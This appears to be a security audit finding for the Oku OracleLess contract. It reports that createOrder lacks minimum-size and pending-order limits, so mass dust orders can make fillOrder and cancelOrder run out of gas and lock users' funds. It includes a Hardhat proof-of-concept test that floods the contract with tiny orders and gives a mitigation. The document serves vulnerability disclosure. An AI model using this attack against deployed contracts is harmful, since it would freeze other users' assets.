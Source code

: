Wobbly Zinc Stork

High

# Attacker will Lock users funds by creating unlimited dust orders

### Summary

The missing check of minimum order size and max number of pending orders in the OracleLess::createOrder() function will lock user's funds in the contract as attacker will create so many dust orders to the point of making `OracleLess::fillOrder()`, `OracleLess::cancelOrder()` and `OracleLess::adminCancelOrder()` go out of gas when executed.

### Root Cause

In OracleLess.sol:38 there is no check for minimum order size nor the max number of pending orders
https://github.com/sherlock-audit/2024-11-oku/blob/main/oku-custom-order-types/contracts/automatedTrigger/OracleLess.sol#L38-L67
this will lead to creating unlimited number of dust orders and making the `OracleLess::fillOrder()`, `OracleLess::cancelOrder()` and `OracleLess::adminCancelOrder()` go out of gas when executed.
fillOrder() go out of gas due to `ArrayMutation::removeFromArray()` call

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

1. After legitimate users create legitimate orders
2. attacker call OracleLess::createOrder() with as low amountIn as possible unlimited times

### Impact

Legitimate users funds will be locked in the contract forever.

### PoC

The following PoC will crash with a Transaction ran out of gas

```typescript

import { AutomationMaster__factory, Bracket__factory, IERC20__factory, IPermit2__factory, OracleLess, OracleLess__factory, PlaceholderOracle__factory, StopLimit__factory, UniswapV3Pool__factory } from "../../typechain-types"
import { currentBlock, hardhat_mine, hardhat_mine_timed, resetCurrentArbBlock } from "../../util/block"
import { expect } from "chai"
import { stealMoney } from "../../util/money"
import { decodeUpkeepData, generateUniTx, generateUniTxData, getGas, MasterUpkeepData, permitSingle } from "../../util/msc"
import { s, SwapParams } from "./scope"
import { DeployContract } from "../../util/deploy"
import { ethers } from "hardhat"
import { a } from "../../util/addresser"
import { AllowanceTransfer } from "@uniswap/permit2-sdk"
import { AbiCoder, TypedDataDomain } from "ethers"

const abiCoder = new ethers.AbiCoder();

///All tests are performed as if on Arbitrum
///Testing is on the Arb WETH/USDC.e pool @ 500
describe("Automated Trigger Testing on Arbitrum", () => {

    before(async () => {
        console.log("STARTING")
        await resetCurrentArbBlock(235660173)
        console.log("Testing on ARB @", (await currentBlock())?.number)

        //connect to signers
        s.signers = await ethers.getSigners()
        s.Frank = s.signers[0]
        s.Andy = s.signers[1]
        s.Bob = s.signers[2]
        s.Charles = s.signers[3]
        s.Steve = s.signers[4]
        s.Oscar = s.signers[5]
        s.Gary = s.signers[6]


        s.UniPool = UniswapV3Pool__factory.connect(s.pool, s.Frank)
        s.WETH = IERC20__factory.connect(await s.UniPool.token0(), s.Frank)
        s.USDC = IERC20__factory.connect(await s.UniPool.token1(), s.Frank)
        s.ARB = IERC20__factory.connect("0x912CE59144191C1204E64559FE8253a0e49E6548", s.Frank)
        s.UNI = IERC20__factory.connect("0xFa7F8980b0f1E64A2062791cc3b0871572f1F7f0", s.Frank)


    })

    it("Deploy", async () => {
        //deploy master
        s.Master = await DeployContract(new AutomationMaster__factory(s.Frank), s.Frank)
        //deploy master
        s.OracleLess = await DeployContract(new OracleLess__factory(s.Frank), s.Frank, await s.Master.getAddress(), a.permit2)
        //deploy stop loss limit
        s.Bracket = await DeployContract(new Bracket__factory(s.Frank), s.Frank, await s.Master.getAddress(), a.permit2)

        //deploy stop limit
        s.StopLimit = await DeployContract(
            new StopLimit__factory(s.Frank),
            s.Frank,
            await s.Master.getAddress(),
            await s.Bracket.getAddress(),
            a.permit2
        )


        //deploy test oracles
        s.wethOracle = await new PlaceholderOracle__factory(s.Frank).deploy(await s.WETH.getAddress())
        s.usdcOracle = await new PlaceholderOracle__factory(s.Frank).deploy(await s.USDC.getAddress())
        s.uniOracle = await new PlaceholderOracle__factory(s.Frank).deploy(await s.UNI.getAddress())
        s.arbOracle = await new PlaceholderOracle__factory(s.Frank).deploy(await s.ARB.getAddress())



    })

    it("Register", async () => {

        //register sup keepers
        await s.Master.connect(s.Frank).registerSubKeepers(
            await s.StopLimit.getAddress(),
            await s.Bracket.getAddress()
        )

        //register oracles
        const tokens = [await s.WETH.getAddress(), await s.USDC.getAddress(), await s.UNI.getAddress(), await s.ARB.getAddress()]
        const oracles = [await s.wethOracle.getAddress(), await s.usdcOracle.getAddress(), await s.uniOracle.getAddress(), await s.arbOracle.getAddress()]
        await s.Master.connect(s.Frank).registerOracle(tokens, oracles)

        //set max pending orders
        await s.Master.connect(s.Frank).setMaxPendingOrders(s.maxPendingOrders)

        //set min order size 1000000000n
        await s.Master.connect(s.Frank).setMinOrderSize(s.minOrderSize)

    })

    it("Check upkeep", async () => {

        //should be no upkeep needed yet
        const result = await s.Master.checkUpkeep("0x")
        expect(result.upkeepNeeded).to.eq(false)
    })
})

/**
 * stop-limit orders create a limit order once strike price is reached
 * stop price is the fill price for stop-limit
 * strike price is the fill price for the limit order once it is created
 */
describe("Execute Stop-Limit Upkeep", () => {

    let orderId: BigInt
    let BobOrderId: BigInt
    const stopDelta = ethers.parseUnits("500", 8)//create limit order when price reaches stop
    const strikeDelta = ethers.parseUnits("100", 8)//close limit order when price reaches strike
    const strikeBips = 200
    //setup
    before(async () => {
        //steal money for s.Bob
        await stealMoney(s.wethWhale, await s.Bob.getAddress(), await s.WETH.getAddress(), s.wethAmount * BigInt(10))

        //steal Money for s.Alice
        await stealMoney(s.wethWhale, await s.Andy.getAddress(), await s.WETH.getAddress(), s.wethAmount)

        //reset test oracle price
        await s.wethOracle.setPrice(s.initialEthPrice)
        await s.usdcOracle.setPrice(s.initialUsdcPrice)
        await s.uniOracle.setPrice(s.initialUniPrice)
        await s.arbOracle.setPrice(s.initialArbPrice)

    })

    it("Attack using unlimited orders !!", async () => {
        // Create Stop Limit for Bob 
        const currentPrice = await s.Master.getExchangeRate(await s.WETH.getAddress(), await s.USDC.getAddress())
        await s.WETH.connect(s.Bob).approve(await s.OracleLess.getAddress(), s.wethAmount * BigInt(10))
        console.log("test 1")
        for (let i = 0; i < 15; i++) {
            await s.OracleLess.connect(s.Bob).createOrder(
                await s.WETH.getAddress(),
                await s.USDC.getAddress(),
                1,
                1,
                await s.Bob.getAddress(),
                5,//5 bips fee
                false,//no permit
                "0x"
            )
        }
        console.log("test 2")
        const filter2 = s.OracleLess.filters.OrderCreated
        const events2 = await s.OracleLess.queryFilter(filter2, -1)
        const event2 = events2[0].args
        BobOrderId = (event2[0])
        console.log("test 3")
        await s.OracleLess.connect(s.Bob).cancelOrder(BobOrderId.toString(), { gasLimit: 100000 }) // only 21336 gas is required to run this function
        /*await expect(
            s.OracleLess.connect(s.Bob).cancelOrder(BobOrderId.toString(), { gasLimit: 100000 }) // only 21336 gas is required to run this function
        ).to.be.revertedWithoutReason();*/

    })

})


```

### Mitigation

when creating a new order on OracleLess you should check if:
1. the minimum order size is respected
2. the max number of pending orders is reached